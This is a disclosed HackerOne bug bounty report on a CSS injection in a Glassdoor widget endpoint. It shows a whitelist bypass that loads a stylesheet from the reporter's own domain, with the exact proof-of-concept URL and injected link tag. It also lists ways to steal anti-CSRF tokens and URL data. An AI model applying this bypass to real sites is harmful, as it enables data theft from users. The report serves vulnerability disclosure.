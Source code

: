 # CSS injection via link tag whitelisted-domain bypass - https://www.glassdoor.com

## Report Details
- **Report ID**: 1250730
- **URL**: https://hackerone.com/reports/1250730
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-07-03T17:36:27.183Z
- **Disclosed**: 2021-12-02T17:17:48.058Z

## Reporter
- **Username**: zonduu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
## Summary:

It is possible load an arbitrary .css file. Bypassing the protections by adding the domain `https://www.glassdoor.com` in a parameter/path.

### Affected URL or select Asset from In-Scope: 

- https://www.glassdoor.com/api/widget/apiError.htm?action=employer-single-review&css=https://zonduu.me/example.css?http://www.glassdoor.com/&format=320x280&responsetype=embed&reviewid=3762318&version=1&format=320x280&responsetype=embed&reviewid=3762318&version=1

### Affected Parameter:

- css

### Browsers tested:

- All

## Steps To Reproduce:

- https://www.glassdoor.com/api/widget/apiError.htm?action=employer-single-review&css=https://zonduu.me/example.css?http://www.glassdoor.com/&format=320x280&responsetype=embed&reviewid=3762318&version=1&format=320x280&responsetype=embed&reviewid=3762318&version=1

It will inject `https://zonduu.me/example.css?http://www.glassdoor.com/` in the href of the second link tag.

```html
<link href='https://zonduu.me/example.css?http://www.glassdoor.com/' rel='stylesheet' type='text/css' media='all' />
```

`www.glassdoor.com` needs to be in input otherwise the server rejects it.

## Impact Description:

## Impact

- Executing arbitrary JavaScript using IE's expression() function.
- Using CSS selectors to read parts of the HTML source, which may include sensitive data such as anti-CSRF tokens.
- Capturing any sensitive data within the URL query string by making a further style sheet import to a URL on the attacker's domain, and monitoring the incoming Referer header.

## Attachments
No attachments
